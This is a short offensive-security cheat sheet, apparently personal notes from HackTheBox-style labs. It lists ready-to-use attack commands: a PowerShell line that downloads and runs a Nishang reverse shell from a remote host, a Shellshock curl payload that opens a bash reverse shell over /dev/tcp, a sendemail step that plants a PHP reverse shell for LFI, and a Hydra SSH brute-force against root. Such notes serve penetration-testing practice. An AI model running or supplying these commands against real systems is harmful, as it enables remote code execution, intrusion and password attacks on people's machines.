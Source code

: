 # Exploit

## Reverse powershell using Nishang
```
cp post-exploit/nishang/Shells/Invoke-PowerShellTcp.ps1 HTB/chatterbox/
powershell \"IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')\""
```

## Shellshock
```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.90.35/9999 0>&1' http://192.168.90.59/cgi-bin/test.sh
```

## LFI
### Send email
```
sendemail -t asterisk@localhost -o message-file=php-reverse-shell.php -u pwnd -s 10.10.10.7:25 -f flame_n@htb.eu
```

## Bruteforce
### Hydra
SSH
```
hydra -l root -P /usr/share/wordslists/metasploit/unix_passwords.txt ssh://192.168.4.4:22 -t 4 -V
```
### scanner/ssh/ssh_login

## https://digi.ninja/blog/when_all_you_can_do_is_read.php
